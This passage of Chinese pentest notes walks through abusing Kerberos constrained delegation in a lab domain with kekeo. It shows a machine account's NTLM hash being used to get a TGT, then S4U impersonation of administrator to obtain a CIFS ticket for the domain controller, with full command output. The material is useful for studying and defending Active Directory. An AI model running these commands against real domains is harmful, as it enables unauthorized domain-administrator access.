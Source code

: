 ![kekeo](利用域委派获取域某些权限/kekeo.png)

如果是服务账号的话命令就是：

    tgt::ask /user:sqlsrv /domain:demo.local /password:xxx /ticket:sqlsrv.kirbi)
    kekeo # tgt::ask /user:WIN10-NEW$ /domain:demo.local /NTLM:5b8303606d3478a49e47650272fea13b
    Realm        : demo.local (demo)
    User         : WIN10-NEW$ (WIN10-NEW$)
    CName        : WIN10-NEW$       [KRB_NT_PRINCIPAL (1)]
    SName        : krbtgt/demo.local        [KRB_NT_SRV_INST (2)]
    Need PAC     : Yes
    Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 5b8303606d3478a49e47650272fea13b
    [kdc] name: OWA2010DC.demo.local (auto)
    [kdc] addr: 192.168.18.10 (auto)
      Ticket in file 'TGT_WIN10-NEW$@DEMO.LOCAL_krbtgt~demo.local@DEMO.LOCAL.kirbi'

小知识

    Pass the Ticket (票据传递攻击PtT)
    知道用户的ntlm值，由kekeo生成TGT票据，之后导入票据即可



由于设置了约束性委派所以利用刚才的WIN10-NEW$的TGT票据，像域服务器发起申请访问域服务器相应服务(CIFS共享服务)管理权限的TGS票据 ： 

    Tgs::s4u /tgt:service_account_tgt_file /user:administrator@testlab.com /service:service_to_access
即：

    kekeo # tgs::s4u /tgt:TGT_WIN10-NEW$@DEMO.LOCAL_krbtgt~demo.local@DEMO.LOCAL.kirbi /user:administrator@demo.local /service:cifs/OWA2010DC.demo.local
    Ticket  : TGT_WIN10-NEW$@DEMO.LOCAL_krbtgt~demo.local@DEMO.LOCAL.kirbi
      [krb-cred]     S: krbtgt/demo.local @ DEMO.LOCAL
      [krb-cred]     E: [00000012] aes256_hmac
      [enc-krb-cred] P: WIN10-NEW$ @ DEMO.LOCAL
      [enc-krb-cred] S: krbtgt/demo.local @ DEMO.LOCAL
      [enc-krb-cred] T: [1/12/2018 2:17:58 AM ; 1/12/2018 12:17:58 PM] {R:1/19/2018 2:17:58 AM}
      [enc-krb-cred] F: [40e00000] pre_authent ; initial ; renewable ; forwardable ;
      [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): a9e1f34bc1c62de37793943742e0f235a4ba0a0ec01a9899f52b1e9e7798970c
      [s4u2self]  administrator@demo.local
    [kdc] name: OWA2010DC.demo.local (auto)
    [kdc] addr: 192.168.18.10 (auto)
      Ticket in file 'TGS_administrator@demo.local@DEMO.LOCAL_WIN10-NEW$@DEMO.LOCAL.kirbi'
    Service(s):
      [s4u2proxy] cifs/OWA2010DC.demo.local
      Ticket in file 'TGS_administrator@demo.local@DEMO.LOCAL_cifs~OWA2010DC.demo.local@DEMO.LOCAL.kirbi'
